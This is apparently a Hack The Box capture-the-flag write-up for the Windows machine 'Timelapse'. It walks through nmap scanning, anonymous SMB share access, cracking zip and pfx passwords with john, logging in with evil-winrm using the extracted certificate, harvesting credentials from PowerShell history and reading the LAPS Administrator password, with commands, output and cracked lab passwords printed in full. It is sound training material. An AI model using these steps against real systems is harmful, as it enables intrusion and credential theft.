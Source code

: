 ```yaml
---
title: HTB | Timelapse
author: Zeropio
date: 2022-05-28
categories: [HackTheBox, Machines]
tags: [htb, windows, easy]
permalink: /htb/labs/machines/timelapse
---
```


![HTB Img](/assets/img/hackthebox/card/Timelapse.png)


# Enumeration
We can see thanks to the ping that is a Windows:
```
> ping 10.10.11.152
PING 10.10.11.152 (10.10.11.152) 56(84) bytes of data.
64 bytes from 10.10.11.152: icmp_seq=1 ttl=127 time=51.7 ms
```
**ttl=127**

First we scan the ports:
```
# Nmap 7.92 scan initiated Sun May 22 20:33:04 2022 as: nmap -p- -sS --min-rate 5000 --open -v -oG allPorts 10.10.11.152
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.152 ()	Status: Up
Host: 10.10.11.152 ()	Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 5986/open/tcp//wsmans///, 9389/open/tcp//adws///, 49667/open/tcp/////, 49673/open/tcp/////, 49674/open/tcp/////, 49696/open/tcp/////, 61941/open/tcp/////	Ignored State: filtered (65518)
# Nmap done at Sun May 22 20:33:45 2022 -- 1 IP address (1 host up) scanned in 40.27 seconds
```

We executed the (getPorts.sh)[https://raw.githubusercontent.com/zeropio/the_helpful_scripts/main/nmap/getPorts.sh] command to scan each one:
```console
# Nmap 7.92 scan initiated Sat May 28 00:43:09 2022 as: nmap -sVC -p 53,88,135,139,389,445,464,636,3268,3269,5986,9389,49667,49673,49674,49696,61941 -Pn -oN nmapFull 10.10.11.152
Nmap scan report for 10.10.11.152
Host is up (0.065s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-28 06:43:16Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5986/tcp  open     ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-05-28T06:44:46+00:00; +7h59m59s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf        .NET Message Framing
49667/tcp open     msrpc         Microsoft Windows RPC
49673/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open     msrpc         Microsoft Windows RPC
49696/tcp open     msrpc         Microsoft Windows RPC
61941/tcp filtered unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
| smb2-time: 
|   date: 2022-05-28T06:44:08
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

&nbsp;
---

# Explotation

## Samba
We can confirm that is a Windows. Let's try the samba:
```console
> smbclient -L \\\\10.10.11.152\\  
Password for [WORKGROUP\zeropio]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
```

We can test those folders:
```console
> smbclient \\\\10.10.11.152\\ADMIN$
Password for [WORKGROUP\zeropio]:
tree connect failed: NT_STATUS_ACCESS_DENIED

> smbclient \\\\10.10.11.152\\C$    
Password for [WORKGROUP\zeropio]:
tree connect failed: NT_STATUS_ACCESS_DENIED

> smbclient \\\\10.10.11.152\\IPC$
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

> smbclient \\\\10.10.11.152\\NETLOGON
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

> smbclient \\\\10.10.11.152\\SYSVOL
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

Finally, **Shares** have some files:
```console
> smbclient \\\\10.10.11.152\\Shares
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 17:39:15 2021
  ..                                  D        0  Mon Oct 25 17:39:15 2021
  Dev                                 D        0  Mon Oct 25 21:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 17:48:42 2021
```
We download all of them.

### zip
If we try to unzip the file:
```console
> unzip winrm_backup.zip                
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

We need to break it with **john**:
```console
> sudo john --format=PKZIP --wordlist=/usr/share/wordlists/rockyou.txt zip-hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**supremelegacy**    (winrm_backup.zip/legacyy_dev_auth.pfx)
```

### pfx
We get the following file: **legacyy_dev_auth.pfx**. If we try to open it, it ask for a password.
Let's break it with john again:
```console
> sudo john --format=pfx --wordlist=/usr/share/wordlists/rockyou.txt pfx-hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**thuglegacy**       (legacyy_dev_auth.pfx) 
```
We can see some ssl certs:
![HTB Img](/assets/img/hackthebox/labs/timelapse/zeropio-28012153.jpg)

```console
> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
> openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt 
```

### shell
We can use **evil-winrm** to access. Thanks to the nmap we now that ssl is enable, so we need to add **-S**:
```console
> evil-winrm -i 10.10.11.152 -c cert.crt -k prv.key -S
Enter PEM pass phrase:
	*Evil-WinRM* PS C:\Users\legacyy\Documents>
```

&nbsp;
---

# Privilage Escalation
If we check the history we can see something:
```console
PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We will set all the variables, know we can executed the code below in the history.
Let's try to get the admin password with LDAP:
```console
PS C:\Users> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

Now we just need to login as **Administrator**:
```console
> evil-winrm -i 10.10.11.152 -S -u 'Administrator' -p 'h8#+vv+;q{E4u9+9u+-2c%+;' 
```
